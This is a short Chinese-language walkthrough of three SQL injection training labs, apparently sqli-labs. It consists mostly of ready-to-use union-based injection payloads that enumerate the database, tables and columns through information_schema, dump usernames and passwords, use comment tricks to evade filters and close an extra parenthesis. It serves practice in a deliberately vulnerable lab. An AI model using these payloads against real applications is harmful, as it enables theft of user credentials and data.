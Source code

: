 #### lab1：字符型union注入

简单的联合注入？

payload:

测显示位：

```sql
1'union select 1,2,3%23
```

爆数据库：

```sql
-1'union select 1,database(),3%23
```

爆表名：

```sql
-1'union select 1,2,group_concat(table_name)from(information_schema.tables)where table_schema=database()%23
```

爆字段：

```sql
-1'/**/union select 1,2,group_concat(column_name)from(information_schema.columns)where/**/table_name='users'%23
```

爆用户名和密码：

```sql
-1'/**/union select 1,group_concat(username),group_concat(password) from users %23
```

```
username:
Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
password:
Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
```

#### lab2：整型union注入

爆表名：emails,referers,uagents,users

```sql
-1 union select 1,2,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database()%23
```

爆字段名：id,username,password,level

```sql
-1 union select 1,2,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name='users'%23
```

爆出用户名和密码：

```sql
-1 union select 1,group_concat(username),group_concat(password) from users%23
```



#### lab3：

初次碰壁：直接使用简单的sql注入是不行的了，后端进行了处理，通过报错回显我们可以分析，是多了一个括号，我们写入这样一个语句`-1'union select 1,2%23`，产生的回显是`your MySQL server version for the right syntax to use near 'union select 1,2#') LIMIT 0,1' at line 1`，比我们的语句多了一个括号，那么闭合括号就可以了。

爆数据库：

```sql
-1')union select 1,database(),3%23
```

爆表名：emails,referers,uagents,users

```sql
-1') union select 1,2,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database()%23
```

同理如lab1，lab2，使用union注入即可，只是多闭合了一个`)`

